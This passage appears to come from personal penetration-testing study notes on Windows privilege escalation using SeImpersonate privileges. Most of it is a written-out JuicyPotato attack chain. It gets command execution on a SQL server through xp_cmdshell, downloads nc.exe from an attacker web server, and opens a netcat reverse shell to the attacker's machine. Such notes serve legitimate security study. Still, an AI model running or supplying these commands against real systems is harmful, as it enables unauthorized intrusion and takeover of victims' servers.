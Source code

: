     * Even if a privilege is listed as 'Disabled' for our account, it means it has the specific privilege assigned; we can enable privileges using [certain](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) [scripts](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)

* SeImpersonate and SeAssignPrimaryToken:

    * JuicyPotato exploit:

        ```sh
        # on attacker machine
        # suppose we have gained a foothold on a SQL server using a privileged SQL user
        # we can connect to the SQL server instance and confirm privileges
        mssqlclient.py sql_dev@10.129.43.30 -windows-auth

        enable_xp_cmdshell
        # in the MSSQL shell, enable xp_cmdshell

        xp_cmdshell whoami
        # shows SQL server service account

        xp_cmdshell whoami /priv
        # SeImpersonatePrivilege listed
        # JuicyPotato exploit can be used for privesc

        # upload JuicyPotato.exe and nc.exe to target server
        # for example
        xp_cmdshell "powershell.exe wget http://10.10.14.2:8000/nc.exe -OutFile c:\tools\nc.exe"

        # setup listener on attacker
        nc -nvlp 8443

        # in MSSQL shell
        xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
        # -l is COM server listening port, on which it listens for incoming connections
        # -p is program to launch
        # -t is createprocess call
